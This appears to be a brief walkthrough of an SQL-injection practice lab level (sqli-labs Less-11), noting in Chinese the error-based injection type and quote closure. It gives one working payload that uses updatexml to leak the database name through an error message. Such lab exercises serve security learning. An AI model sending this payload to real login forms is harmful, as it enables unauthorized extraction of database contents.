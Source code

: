 ![](file/image_JsP1ftZsXP.png)

### Less-11：POST - Error Based - Single quotes- string

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
admin' and updatexml(1,concat(0x7e,database()),1) #
```

![](file/image_-rYeY_Nn7W.png)
